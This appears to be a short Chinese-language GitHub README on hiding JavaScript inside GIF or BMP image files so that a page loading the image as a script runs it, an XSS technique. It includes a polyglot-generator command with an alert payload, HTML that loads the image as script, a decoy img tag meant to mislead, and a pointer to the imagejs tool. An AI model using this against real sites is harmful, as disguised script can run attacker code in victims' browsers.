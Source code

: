 # Hide Javascript inside image file

在图片中隐藏有效的js代码，然后再页面中执行该图片，可以触发xss漏洞，这种方式触发xss,其js是按图片类型传输的，而不是按js类型传输，如下图：

![](google.png)

## GIF 植入 js payload

运行: `python GIF_injector.py gif_xss.gif 'alert("xss with gif");'`

生成gif_xss.gif文件，包含xss payload

html页面中引入图片，执行js代码，参考如下:

```html
<html>
<head>
    <title>XSS Injectn into an image</title>
</head>
<body>
    <script src="gif_xss.gif"></script>
</body>
</html>
```

还可以加入`img`标签，迷惑对方

```
<html>
<head>
    <title>XSS Injectn into an image</title>
</head>
<body>
    <img src='git_xss.gif'></img>
    <script src="gif_xss.gif"></script>
</body>
</html>
```

safari 触发xss结果如下图:

![](safari.png)

## BMP 植入 js payload

方式同上

## [github imagejs](https://github.com/jklmnn/imagejs)

from [https://github.com/jklmnn/imagejs](https://github.com/jklmnn/imagejs)

支持输出文件: gif, bmp, webp, pnm, pgf
